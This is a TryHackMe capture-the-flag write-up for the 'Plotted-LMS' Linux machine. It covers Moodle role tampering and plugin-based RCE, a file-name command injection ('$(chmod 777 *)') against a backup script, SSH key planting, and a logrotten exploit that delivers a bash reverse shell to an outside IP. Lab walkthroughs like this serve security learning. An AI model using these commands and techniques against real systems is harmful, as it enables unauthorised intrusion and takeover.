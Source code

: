 # Plotted-LMS TryHackMe Writeup
### Level: `Hard` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
I checked all HTTP services, but they all showed the same **Apache (Ubuntu)** default page.

![](3.png)

We run **linpeas** tool and enumerate various files and directories interesting, but are *rabbits hole*:

![](4.png)

![](5.png)

![](6.png)

We enumerate **Moodle** directory:

![](7.png)

We access the directory and see several courses available.

![](8.png)


## Exploitation
We create an account, we see that the application tells us that the email has to be "*@plotted.thm*" (we list domain) and we authenticate with the account.

![](9.png)

We enumerate the possible **Moodle 3.9** version:

![](10.png)

But the exploits I found for RCE didn't work for me.

![](11.png)

I also tested the *XSS vulnerability* published in previous versions.

![](12.png)

Working! But neither user has ever logged in, so I ruled out the possibility of session cookie theft.

![](13.png)

Looking for information about Moodle and RCE (Remote Code Execution) I found this proof of concept: 

[Moodle RCE #CVE-2020-14321 PoC](https://www.youtube.com/watch?v=BkEInFI4oIU)

I did the same steps as in the video, although I summarize it:

We signed up for the course:

![](14.png)

We enter the "*participants*" section, click on "*Enrol Users*", search for our user and intercept the save request with **Burp**.

We change the value of "*roletoassign=*" to "*1*" (1 = MANAGER):

![](15.png)

We see that we are now "*Manager*".

![](16.png)

We access the profile of the user "*John Doe*", we check that we can now use the **SSO** that **Moodle** incorporates, this would allow us to access the administration panel as if we were the user "*John Doe*".

![](17.png)

In this part, we will modify the values of the "*Manager*" role to enable and install a malicious plugin and execute commands (It is very well explained in the video above, so I will be brief).

![](18.png)

Click on install plugin:

![](19.png)

Upload the file "*rce.zip*" and install it.

![](20.png)

We complete the installation and look for the file.

![](21.png)

#### PoC Moodle RCE
![](22.png)

We intercept with **Burp**, put a **netcat** listening on port *443* and run our payload to gain access to the machine:

![](23.png)

#### Reverse shell
![](24.png)


## Privilege Escalation (Plot_admin user)
We did a file recognition, listed several credentials but none of them worked for me.

![](25.png)

We looked for files and found that the user "*plot_admin*" has a script "*backup.py"* that we can read.

![](26.png)

We open another session (yes, I know, the machine is super slow....) and run "**pspy**", we check that a backup of moodle is being performed in the hidden directory of the user "*plot_admin*"... This makes me suspect that the Python script is being executed.

![](27.png)

Checking the python script and that we only have access to the path "*moodle_location*", we would have to try abusing a *command injection* by means of a file name.

```bash
cd /var/www/uploadedfiles/filedir/
touch './"";$(chmod 777 *)'
```

We execute the above commands and wait for the scheduled task to be executed. After that, we will have write and read access to the files in the "plot_admin" directory:

![](28.png)

We create SSH keys, but if we try to use the "*id_rsa*" file it asks for the user's password, so we put our public key in the "*authorized_keys*" file and connect via **SSH**.

![](29.png)

## Privilege Escalation
We re-launch pspy with the user "*plot_admin*", we quickly see that it is running "**logrotate**" and an **SSH** connection to the root user, executing the contents of "*/etc/bash_completion*":

![](30.png)

#### Exploit: [whotwagner/logrotten](https://github.com/whotwagner/logrotten)

We check that the machine has "**gcc**", transfer the exploit and compile it.

![](31.png)

As it was likely to have to be repeating the execution of the exploit and in each execution I had to delete and rename the backup, I generated a script to run every few minutes.

```bash
#!/bin/bash

rm .logs_backup
mv .logs_backup2/ .logs_backup
cp /home/plot_admin/.logs_backup/moodle_access.1 /home/plot_admin/.logs_backup/moodle_access; ./logrotten -p /tmp/m3file.sh /home/plot_admin/.logs_backup/moodle_access;ls /etc/bash_completion.d
```

#### Content m3file.sh file:
```
bash
#!/bin/bash

bash -i >& /dev/tcp/10.2.116.223/5555 0>&1
```

We put a **netcat** listening and run the script, we see that the file "*moodle_access*".... has been created.

![](32.png)

We will obtain a root session and will be able to read the file "*/root/root.txt*".

![](33.png)

*PD: Thanks to **0x1dz** for the help with the hints.*

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)